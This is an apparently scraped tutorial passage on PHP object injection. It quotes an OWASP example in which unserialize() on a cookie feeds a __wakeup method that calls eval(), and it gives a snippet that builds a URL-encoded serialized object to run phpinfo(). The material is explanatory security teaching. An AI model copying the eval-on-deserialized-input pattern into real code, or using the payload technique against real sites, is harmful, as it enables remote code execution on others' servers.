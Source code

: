# possible exploit
It’s even possible to achieve RCE using PHP object injection! For example, consider this vulnerable code snippet: (taken from [https://www.owasp.org/index.php/PHP\_Object\_Injection](https://www.owasp.org/index.php/PHP_Object_Injection))

```text-plain
class Example2
{
  private $hook;   
  function __construct(){
      // some PHP code...
  }   
  function __wakeup(){
      if (isset($this->hook)) eval($this->hook);
  }
}// some PHP code...$user_data = unserialize($_COOKIE['data']);// some PHP code...
```

You can achieve RCE using this deserialization flaw because a user-provided object is passed into unserialize. And the class Example2 has a magic function that runs **eval()** on user-provided input.

To exploit this RCE, you simply have to set your **data** cookie to a serialized Example2 object with the **hook** property set to whatever PHP code you want. You can generate the serialized object using the following code snippet:

```text-plain
class Example2
{
   private $hook = "phpinfo();";
}print urlencode(serialize(new Example2));
// We need to use URL encoding since we are injecting the object via a URL.
```

Passing the above-generated string into the **data** cookie will cause the code “**phpinfo();”** to be executed.